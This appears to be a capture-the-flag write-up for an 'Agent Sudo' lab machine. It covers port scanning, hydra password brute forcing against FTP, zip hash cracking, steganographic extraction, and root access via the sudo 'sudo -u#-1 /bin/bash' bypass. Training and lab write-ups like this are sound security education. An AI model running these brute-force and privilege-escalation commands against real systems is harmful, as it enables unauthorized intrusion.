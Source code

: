 # AgentSudo
You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

## Nmap Scan
```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```
There are three ports open FTP on port 21, SSH on port 22 and web on port 80

## Enumeration
Agents have codename which is a single alphabet, Using Burp Suite I was able to bruteforce user-agent and the user-agent was C
It redirected me to http://<MACHINE_IP>/agent_C_attention.php
There I found a little text message
```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R 
```
And we found the user `chris`

## Exploitation
Bruteforcing using hydra `hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://<MACHINE_IP>`
> username - chris

> password - XXXXXXX

Now we know the password, we can login through FTP
using an ls command we can see all the files in the FTP server
```
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```
Dumped all the files using `mget *`
I used `binwalk -e cutie.png` to extract all hidden files, Found a 8702.zip and it is encrypted
I am using `zip2john 8702.zip > Output.txt` to extract the hash fro ZIP file for john to crack and `john Output.txt` to crack the hash and we got the password alien

Extracted 8702.zip using `7z e 8702.zip` using the password we previously cracked, The ZIP consisted a TXT file `To_agentR.txt`
Opening the `To_agentR.txt` has the following message
```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
There is a little encoded string Its was Base64 encoded, It decodes to `Area51`
Using the `steghide — extract -sf cute-alien.jpg` to find hidden files in the other jpg it was asking for a passphrase and I used the previous decoded string, After extracting we got a file `message.txt`
```
Hi james,

Glad you find this message. Your login password is XXXXXXXXXXXX 

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
Awesome! We got SSH credentials. Let us login using the credentials
> username - james

> password - XXXXXXXXXXXX

Got our first flag `user_flag.txt`
## Priveleges Escalation 

running `sudo -l` to know the priveleges of the current logged in user
```
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```
After searching about `(ALL, !root) /bin/bash` I got to know that its a vulnerability that allows root access 
```
vulnerability is relevant in a specific configuration in the Sudo security policy,
called “sudoers”, which helps ensure that privileges are limited only to specific users.
(source:whitesourcesoftware)
```
Got the root shell using `sudo -u#-1 /bin/bash` and we got our root flag in `/root/root.txt`



